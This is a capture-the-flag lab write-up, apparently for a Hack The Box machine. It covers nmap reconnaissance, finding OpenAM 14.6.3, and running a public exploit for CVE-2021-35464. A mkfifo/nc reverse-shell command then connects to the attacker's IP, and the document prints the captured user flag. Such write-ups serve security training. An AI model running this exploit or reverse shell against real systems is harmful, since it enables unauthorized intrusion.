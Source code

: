 # Manager - User

Some basic info after starting the instance and connecting to the challenge VPN network via `openvpn` -  
Target IP - 10.129.173.138  
Local IP - 10.10.14.10
Verified that my local machine could talk to the target using `ping`.

# Information Gathering
Did a quick Nmap scan of the IP to list down detailed info about open ports, protocols, services running, OS info, version info and quickly see what the target looks like.
```
$ sudo nmap -A -T4 10.129.173.138 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 19:21 EDT
Nmap scan report for 10.129.173.136
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:a9:f3:f4:f6:a7:0e:9f:d0:25:b6:f4:21:df:6a:11 (RSA)
|   256 0b:b6:38:74:7d:97:bd:1e:a5:ef:35:f8:ef:4d:c6:a6 (ECDSA)
|_  256 81:29:51:ee:09:a8:91:ec:3f:dc:0d:50:d7:25:2a:46 (ED25519)
8080/tcp  open  http     Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
34571/tcp open  java-rmi Java RMI
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/26%OT=22%CT=1%CU=44213%PV=Y%DS=2%DC=T%G=Y%TM=60FF43C
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=C)SEQ(
OS:SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE
OS:88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   78.46 ms 10.10.14.1
2   81.44 ms 10.129.173.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.27 seconds
```

A Tomcat webserver was running on `8080/tcp` and revealed some interesting info
```
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

Added an entry in `/etc/hosts` file on my local machine for the DNS to work. Note the use of `sudo` to edit it because it's a system file owned by `root`.
```
$ sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.129.173.136  manager.htb
```

Browsed to `http://manager.htb:8080/` and it redirected to a login form to OpenAM - Open Access Manager. OpenAM is an open-source access management, entitlements and federation server platform.

![OpenAM](./img/manager-user.png)

Gathered some header info from the `Network` tab in browser dev tools.

![headers](./img/manager-headers.png)

Found the OpenAM version - `v: 14.6.3`

Based on this initial info, did a quick search on the ExploitDB using `searchsploit` CLI tool to see if an exploit is available and surely there was one! 

```
$ searchsploit openam 14.6.3
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                     | java/webapps/50131.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Fetched the exploit

```
$ searchsploit -m 50131
  Exploit: ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50131
     Path: /usr/share/exploitdb/exploits/java/webapps/50131.py
File Type: UTF-8 Unicode text, with very long lines, with CRLF line terminators

Copied to: /home/kali/50131.py
```

Reviewed the exploit code to check if any edits are necessary for the exploit to work correctly and also to make sure the exploit did only what it said it did and nothing more. In this case, only the target URL was modified as applicable.  
> Note: ALWAYS review any exploit that you have not written before using it.

```
## Static vars; change at will, but recommend leaving as is
sURL = 'http://10.129.173.138:8080/openam'
```

Renamed the exploit name. This really was optional but I like to name them something meaningful and easy to recognize. 

```
$ mv 50131.py CVE-2021-35464.py
```

Now the exploit was ready to be used.

# Exploit and Solve

Did a quick check using `id` to see if the exploit was returning expected results.

```
$ python3 CVE-2021-35464.py -c id http://manager.htb:8080/openam/

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "id" now:

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Perfect! Remote Command Execution (RCE) worked. I also verified that netcat was available at `/bin/nc`. Now all I needed was a reverse shell on the target and my go to cheat sheet for a variety of them is [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I chose to use the below. Notice the modified IP, port and shell choice.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
```

Started a `nc` listener to receive the reverse shell

```
$ nc -nlvp 1234
listening on [any] 1234 ...
```

Executed the exploit

```
$ python3 CVE-2021-35464.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" http://manager.htb:8080/openam/                                                  

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" now:
```

Connection and shell received

```
connect to [10.10.14.10] from (UNKNOWN) [10.129.173.138] 48794
tomcat@manager:/$ whoami
whoami
tomcat
tomcat@manager:/$ ls ~
ls ~
accessmanager  conf    lib   openam  user.txt  work
bin            config  logs  temp    webapps
tomcat@manager:/$ cat ~/user.txt  
cat ~/user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

Flag - `HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}`